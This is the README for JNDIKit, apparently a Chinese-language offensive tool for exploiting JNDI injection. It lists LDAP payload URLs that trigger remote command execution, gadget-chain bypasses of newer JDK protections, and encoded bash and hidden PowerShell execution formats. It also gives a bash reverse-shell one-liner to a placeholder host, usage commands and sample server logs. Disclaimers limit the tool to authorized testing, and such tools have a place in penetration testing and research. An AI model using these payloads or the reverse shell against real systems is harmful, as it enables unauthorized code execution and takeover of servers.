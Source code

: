 # JNDIKit

![](https://img.shields.io/badge/build-passing-brightgreen)
![](https://img.shields.io/badge/Java-8-red)

**工具仅用于安全研究以及内部自查，禁止使用工具发起非法攻击，造成的后果使用者负责**

## 介绍

一款简单的`JNDI`注入利用工具（自用）

并没有多少高级功能，主要是一些基本的功能，供安全研究使用

无需自行编译`Java`代码和开启`HTTP`服务，一切自动

| Payload                               | 介绍                                        |
|---------------------------------------|-------------------------------------------|
| ldap://0.0.0.0:1389/SimpleCommand     | 直接执行命令                                    |   
| ldap://0.0.0.0:1389/BashCommand       | 使用bash并进行Base64编码执行命令                     |
| ldap://0.0.0.0:1389/PowershellCommand | 使用powershell并进行Base64编码执行命令               |
| ldap://0.0.0.0:1389/CC6               | 使用CommonsCollections6绕过高版本JDK             |
| ldap://0.0.0.0:1389/BashCC6           | 使用CommonsCollections6绕过高版本JDK（bash）       |
| ldap://0.0.0.0:1389/PowershellCC6     | 使用CommonsCollections6绕过高版本JDK（powershell） |
| ldap://0.0.0.0:1389/CB1               | 使用CommonBeanUtils1绕过高版本JDK                |
| ldap://0.0.0.0:1389/BashCB1           | 使用CommonBeanUtils1绕过高版本JDK（bash）          |
| ldap://0.0.0.0:1389/PowershellCB1     | 使用CommonBeanUtils1绕过高版本JDK（powershell）    |
| ldap://0.0.0.0:1389/Tomcat            | 使用Tomcat ELProcessor绕过高版本JDK              |
| ldap://0.0.0.0:1389/BashTomcat        | 使用Tomcat ELProcessor绕过高版本JDK（bash）        |
| ldap://0.0.0.0:1389/PowershellTomcat  | 使用Tomcat ELProcessor绕过高版本JDK（powershell）  |

支持三种格式的`RCE`
- 直接执行：`Runtime.getRuntime.exec(command);`
- 使用`bash`并编码：`bash -c {echo,[Payload]}|{base64,-d}|{bash,-i}`
- 使用`powershell`并编码：`powershell.exe -NonI -W Hidden -NoP -Exec Bypass -Enc [Payload]`

为什么需要对命令进行特殊处理： 

例如`linux`下执行反弹`shell`命令会失败：`bash -i >& /dev/tcp/x.x.x.x/port 0>&1`

因为重定向和管道字符的使用方式在正在启动的进程的上下文中没有意义，所以需要进行特殊处理

支持一些绕过高版本`JDK`的方式（同样支持三种格式的`RCE`）

- 打本地`gadget`的`CB1`和`CC6`链
- 利用`Tomcat ELProcessor`的绕过

## 使用

命令：`java -jar JNDIKit.jar --cmd calc.exe`

如果命令中包含空格请用引号包裹：`--cmd 'your command'`

```text
    ___  ________   ________  ___  ___  __    ___  _________   
   |\  \|\   ___  \|\   ___ \|\  \|\  \|\  \ |\  \|\___   ___\ 
   \ \  \ \  \\ \  \ \  \_|\ \ \  \ \  \/  /|\ \  \|___ \  \_| 
 __ \ \  \ \  \\ \  \ \  \ \\ \ \  \ \   ___  \ \  \   \ \  \  
|\  \\_\  \ \  \\ \  \ \  \_\\ \ \  \ \  \\ \  \ \  \   \ \  \ 
\ \________\ \__\\ \__\ \_______\ \__\ \__\\ \__\ \__\   \ \__\
 \|________|\|__| \|__|\|_______|\|__|\|__| \|__|\|__|    \|__|                                                                 
20:31:33 [INFO] [org.sec.Main] start jndi kit
20:31:33 [INFO] [org.sec.Main] cmd: calc.exe
20:31:33 [INFO] [org.sec.core.http.HttpServer] start http server: 0.0.0.0:8000
20:31:33 [INFO] [org.sec.core.ldap.LdapServer] start ldap server: 0.0.0.0:1389
┌─────────────────────────────────────┬────────────────────────────────────────────────────┐
│LDAP Payload                         │Introduce                                           │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/SimpleCommand    │Simple RCE                                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCommand      │Simple RCE Use Bash                                 │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCommand│Simple RCE Use Powershell                           │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/CC6              │RCE Use CC6 Payload (Simple)                        │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCC6          │RCE Use CC6 Payload (Bash)                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCC6    │RCE Use CC6 Payload (Powershell)                    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/CB1              │RCE Use CB1 Payload (Simple)                        │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashCB1          │RCE Use CB1 Payload (Bash)                          │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellCB1    │RCE Use CB1 Payload (Powershell)                    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/Tomcat           │Use Tomcat ELProcessor Bypass JDK 8u191 (Simple)    │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/BashTomcat       │Use Tomcat ELProcessor Bypass JDK 8u191 (Bash)      │
├─────────────────────────────────────┼────────────────────────────────────────────────────┤
│ldap://0.0.0.0:1389/PowershellTomcat │Use Tomcat ELProcessor Bypass JDK 8u191 (Powershell)│
└─────────────────────────────────────┴────────────────────────────────────────────────────┘
```

如果端口冲突可自行配置端口

命令：`java -jar JNDIKit.jar --cmd calc.exe --lp 1390 --hp 8001`

接收到请求会实时打印

```text
20:53:21 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> SimpleCommand
20:53:30 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellCommand
20:53:42 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellCC6
20:53:51 [INFO] [org.sec.core.ldap.LdapServer] Accept 127.0.0.1 -----> PowershellTomcat
```

## 免责申明

**未经授权许可使用`JNDIKit`攻击目标是非法的**

**本程序应仅用于授权的安全测试与研究目的**


